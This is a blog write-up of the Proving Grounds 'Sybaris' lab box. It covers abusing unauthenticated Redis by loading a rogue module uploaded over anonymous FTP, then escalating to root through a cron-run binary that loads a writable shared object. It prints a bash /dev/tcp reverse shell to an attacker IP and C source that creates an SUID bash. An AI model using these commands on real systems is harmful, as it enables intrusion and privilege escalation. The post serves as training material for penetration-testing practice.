 ```yaml
---
layout: writeup
title: Sybaris - Proving Grounds
date: 2024-07-15 13:32:20 +0300
description: A Writeup of the Sybaris Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi, Redis]
---
```


Here's a writeup for Sybaris, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Hard. I get started with an nmap scan to reveal:

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

I check out port 80 by entering it into the web browser and begin a directory scan in the background: 

![Sybaris1.png](/assets/images/Sybaris/Sybaris1.png){: .center-aligned width="600px"}

Seems like a basic blog run over the `HTMLy` platform. It doesn't really look like there's anything here, and the directory scan reveals a `/login` page but not much else. Entering any credentials to the admin page seems to take us to `http://$IP/login/login`. I also find nothing for HTMLy exploits. 

I move on temporarily from the web server and check out port 21. It looks like we are able to login with `anonymous:anonymous` credentials, and we see a directory called `pub`, but it's empty, and we can't upload anything to it. It actually hangs trying to `cd` into it, but when we `ls pub` we get nothing. 

That leaves port 6379, a redis server. Fortunately we got a little experience with redis through the [Readys](https://cagrigsby.github.io/writeups/2024-07-14-readys-proving-grounds/) box. We can access it without authentication using `redis-cli -H $IP`, but there's not much interesting when we check the info, and it looks like the db is empty when we use `pyredis-dump.py`. Hm. I do a little research to see what other information could be viewed, but I don't see anything that stands out even when I view the full configs (`CONFIG GET *`) or check for keys or hashes (`KEYS *`, `HKEYS *`). 

So it's time to start looking for exploits at this point. I give [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) a shot even though the redis version is 5.0.9 (rather than 5.0.5 and before) but no luck. I tried writing a [PHP webshell](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#php-webshell) and , [creating an SSH key](https://github.com/iw00tr00t/Redis-Server-Exploit),  but I couldn't write against a read-only replica. I assumed this precluded some of the other suggestions, but I was mistaken. It turns out the actual answer is to [load a malicious redis module](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module)to perform RCE. Now hacktricks links to [this github page](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) so you can clone the repo and compile it using `sudo make`, but please note that **this will not work** on ARM devices such as MacOS. A discord user suggested using the pre-compiled module from  the redis-rogue-server exploit linked above. 

*I had to look into hints for this because apparently there was an issue with my connection.*

When I tried to upload a test file into the FTP server early on, I was unable to, and crucially, the FTP hung when I tried to `cd pub`. It actually hung another time as well. I assumed we could not access this directory, but after reading a writeup, I was incorrect, so I tried again. This time it worked. I'm ot sure why it worked sometimes and not others, maybe I was wearing it out with a directory scan or something, but regardless, we need to `put` the compiled module /`redis-rogue-server/exp.so` into pub, the full PATH of which is `/var/ftp/pub/exp.so`. From there we use `MODULE LOAD /var/ftp/pub/exp.so`, which allows us to use `system.exec` to execute commands as so:

![Sybaris2.png](/assets/images/Sybaris/Sybaris2.png){: .center-aligned width="600px"}

After that I tried uploading a reverse shell which I got to download from my server but didn't execute, so I just ran a simple `system.exec "/bin/bash -i >& /dev/tcp/192.168.45.183/6379 0>&1"` from the redis-cli, and I was able to catch the shell with a penelope listener as pablo. 

![Sybaris3.png](/assets/images/Sybaris/Sybaris3.png){: .center-aligned width="600px"}

I start enumerating from there and check out lse.sh. First things first:

![Sybaris4.png](/assets/images/Sybaris/Sybaris4.png){: .center-aligned width="600px"}

It's empty. Thanks for nothing lse.

![Sybaris5.png](/assets/images/Sybaris/Sybaris5.png){: .center-aligned width="600px"}

Here we go. Cron-job and a writable path. If we try to run the binary, we see there is a missing object file. We can create it, and it will be run with the log-sweeper binary. 

![Sybaris6.png](/assets/images/Sybaris/Sybaris6.png){: .center-aligned width="600px"}

We create a c file on our kali machine:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

And transfer it to our target machine in the `/usr/local/lib/dev` folder. Then we run gcc on it: `gcc -shared -fPIC -nostartfiles -o utils utils.so`. This file will move a copy of `bash` to `/tmp` and add the SUID bit. That means when it runs, there should be a copy of bash in /tmp, and we can run `/tmp/bash -p` and get root. And it does and we do. 

![Sybaris7.png](/assets/images/Sybaris/Sybaris7.png){: .center-aligned width="600px"}
